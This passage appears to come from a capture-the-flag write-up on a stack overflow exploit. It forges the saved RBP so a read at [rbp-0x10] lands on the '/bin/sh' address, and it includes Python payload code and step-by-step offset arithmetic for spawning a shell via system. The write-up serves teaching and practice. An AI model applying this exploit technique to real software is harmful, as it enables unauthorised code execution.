 The code at 0x401218 uses RBP to read a value:

```asm
401218:	mov    rax,QWORD PTR [rbp-0x10]   ← Uses RBP!
```

By controlling RBP (via overflowing saved RBP), we control where `[rbp-0x10]` points!

**Goal:** Make `[rbp-0x10]` point to where we placed the "/bin/sh" address (0x402008).

### Why Specifically 0x70? The Detailed Calculation

This is the trickiest part of the exploit. Let's break it down step by step.

#### Step 1: Where is our data in the payload?

```python
payload = b"A" * 0x40           # Bytes 0-63
payload += p64(fake_rbp)        # Bytes 64-71
payload += p64(ret_gadget)      # Bytes 72-79
payload += p64(system_mid)      # Bytes 80-87
payload += p64(0x402008)        # Bytes 88-95 ← Our data!
```

Our `0x402008` is at **byte offset 88 (0x58)** from the start of the buffer.

#### Step 2: Account for stack shift between rounds

When vuln() runs the second time, the stack pointer has shifted:

```
Stage 1 buffer: buf_addr = 0x7ffd8a3c2e90
Stage 2 buffer: new_buf = buf_addr - 0x8
```

So our data is actually at:
```
new_buf + 0x58 = (buf_addr - 0x8) + 0x58 = buf_addr + 0x50
```

#### Step 3: Calculate required RBP

We want `[rbp-0x10]` to point to our data:

```
[rbp - 0x10] = buf_addr + 0x50
rbp = buf_addr + 0x60
```

#### Step 4: Account for additional frame setup

However, when vuln() is called the second time, there are additional stack frame adjustments (return address push, frame pointer adjustments) that add another **0x10** offset.

Therefore:
```
rbp = buf_addr + 0x60 + 0x10
rbp = buf_addr + 0x70 ✓
```
